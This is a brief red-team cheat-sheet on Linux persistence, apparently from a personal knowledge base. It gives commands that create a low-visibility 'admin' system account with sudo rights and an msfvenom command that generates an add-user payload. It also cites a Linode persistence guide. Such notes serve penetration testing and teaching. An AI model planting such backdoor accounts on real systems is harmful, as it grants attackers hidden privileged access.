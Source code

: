 # Living off the Land

## 01 - Create user account

```
$ useradd -M -N -r -s /bin/bash admin

$ usermod -aG sudo admin

$ passwd admin
```

## 02 - Generate via `msfvenom`

```
$ msfvenom -p cmd/unix/adduser user=<username> pass=<password> rootmethod=<SUID | SUDO | NONE> [checksudoers=<true | false>]
```

---
## References

### Backlinks

- [[Usernames Examples]]

### Linode

- [Linode: Linux Red Team Persistence Techniques](https://www.linode.com/docs/guides/linux-red-team-persistence-techniques/)